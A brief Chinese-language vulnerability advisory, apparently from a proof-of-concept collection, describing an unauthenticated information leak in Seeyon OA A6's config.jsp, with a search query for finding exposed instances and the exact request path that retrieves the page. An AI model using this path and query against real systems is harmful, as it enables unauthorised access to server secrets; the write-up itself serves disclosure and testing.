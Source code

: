 # 致远OA A6 config.jsp 敏感信息泄漏漏洞

## 漏洞描述

致远OA A6 config.jsp页面可未授权访问，导致敏感信息泄漏漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
body="yyoa" && app="致远互联-OA"
```

## 漏洞复现

登录页面

![image-20220520152551136](images/202205201525328.png)

验证POC

```
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![image-20220520152601778](images/202205201526835.png)